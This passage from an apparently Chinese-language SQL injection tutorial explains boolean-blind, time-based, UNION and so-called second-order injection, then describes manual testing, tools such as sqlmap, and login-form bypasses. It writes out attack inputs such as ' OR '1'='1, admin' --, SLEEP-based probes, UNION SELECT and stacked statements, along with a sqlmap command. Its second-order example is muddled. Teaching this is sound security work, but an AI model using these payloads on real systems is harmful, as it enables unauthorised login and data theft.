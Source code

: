 **2.3.2 基于布尔的盲注**

- **原理**：通过布尔表达式（TRUE 或 FALSE）来确定注入点的有效性。
- **示例**：
  - 输入：`' AND 1=1--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' AND 1=1--' AND password = 'password';`
  - 结果：如果页面响应正常，则注入点有效。

**2.3.3 基于时间的盲注**

- **原理**：通过延迟响应时间来确定注入点的有效性。
- **示例**：
  - 输入：`' AND IF(1=1, SLEEP(5), 0)--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' AND IF(1=1, SLEEP(5), 0)--' AND password = 'password';`
  - 结果：如果页面加载时间延长，则注入点有效。

**2.3.4 UNION 基注**

- **原理**：利用 UNION 操作符将多个 SELECT 语句的结果集合并。
- **示例**：
  - 输入：`' UNION SELECT 1,2,3--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' UNION SELECT 1,2,3--' AND password = 'password';`
  - 结果：返回额外的数据行。

**2.3.5 二阶段 SQL 注入**

- **原理**：首先注入一个恶意的 SQL 语句，然后在第二阶段执行该语句。
- **示例**：
  - 第一阶段：输入 `'; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END;--`
  - 第二阶段：输入 `'; CALL p();--`
  - 结果：执行存储过程，返回用户数据。

### 3. 识别 SQL 注入漏洞

**3.1 手动测试方法**

- **步骤**：
  1. 选择一个输入字段。
  2. 输入特殊字符，如单引号、双引号、分号等。
  3. 观察应用程序的响应。
- **示例**：
  - 输入：`' OR '1'='1`
  - 结果：如果能够绕过身份验证，则存在 SQL 注入漏洞。

**3.2 自动化工具**

- **常见工具**：
  - Sqlmap：`sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`
  - Burp Suite：拦截请求，手动修改参数值，观察响应。
  - Havij：图形化界面，自动扫描和利用 SQL 注入漏洞。

**3.3 常见的漏洞点**

**3.3.1 登录表单**

- **示例**：
  - 输入：`admin' --`
  - 结果：绕过密码验证，直接登录。
